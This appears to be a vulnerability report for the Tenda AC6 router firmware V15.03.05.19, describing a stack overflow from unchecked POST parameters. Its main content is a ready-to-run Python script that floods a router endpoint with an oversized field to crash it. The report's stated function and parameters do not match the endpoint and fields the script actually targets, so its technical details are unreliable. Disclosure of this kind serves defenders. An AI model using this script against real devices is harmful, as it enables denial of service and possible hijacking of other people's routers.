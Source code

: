 #### Tenda-AC6

###### Affected version

AC6-V1.0BR_V15.03.05.19

###### Vulnerability details

In the addWifiMacFilter function, the parameter lengths of devicevID and deviceMac passed through POST are not verified, causing stack overflow during the sprintf memory copy process, causing a denial of service and even hijacking the function return address. Since Tanda-ac6 can be set without a password, a strong password should be set and kept well.

![image-20250522185600723](Tanda-AC6-V1.0BR_V15.03.05.19-Vulnerability_Report/image-20250522185600723.png)

###### Validation script

~~~python
import requests
import time

url = "http://192.168.0.1/goform/saveParentControlInfo"
data = {
    "deviceId": "12:12:12:12:12:12",
    "deviceName": "a" * 1024
}

headers_template = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Referer": "http://192.168.0.1/parental_control.html",
    "Connection": "close"
}

def send_request_with_updated_cookie(retries=3, delay=1):
    session = requests.Session()
    cookie_value = "mdncvb"

    for i in range(retries):
        print(f"\nTrying the {i+1}th request...")
        headers = headers_template.copy()
        headers["Cookie"] = f"password={cookie_value}"

        try:
            response = session.post(url, headers=headers, data=data, allow_redirects=False, timeout=5)

            set_cookie = response.headers.get("Set-Cookie")
            if set_cookie:
                cookie_value = set_cookie.split(";")[0].split("=")[1]
                print(f"Get new cookies:{cookie_value}")
            else:
                print("No new cookie was obtained.")

            print(f"Response status code: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")

        time.sleep(delay)

send_request_with_updated_cookie(retries=100, delay=1)
~~~

###### result

![image-20250522190230195](Tanda-AC6-V1.0BR_V15.03.05.19-Vulnerability_Report/image-20250522190230195.png)

